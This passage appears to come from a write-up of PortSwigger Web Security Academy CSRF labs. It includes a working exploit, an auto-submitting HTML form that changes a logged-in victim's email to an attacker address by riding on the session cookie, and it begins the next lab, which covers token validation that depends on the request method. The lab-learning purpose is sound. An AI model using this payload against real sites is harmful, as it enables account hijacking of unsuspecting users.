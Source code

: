 The user is authorised using a single `session` cookie. To solve the lab, I have to construct the HTML frames for a form to send a POST request to change the email:

```html
<form class="login-form" name="change-email-form" action="https://0ace003003fdcbd584814bca001b0077.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

The above will trigger a HTTP POST request, and if the user is logged in, their browser will include the session cookies (Since SameSite cookies aren't being used).

Sending this exploit solves the lab.

## Lab 2: Token Validation depends on Request Method

There are defences, but it is only for certain request methods. To solve the lab, change victim's email address.

This time, there's a CSRF token present:

![](../../.gitbook/assets/portswigger-csrf-writeup-image-1.png)
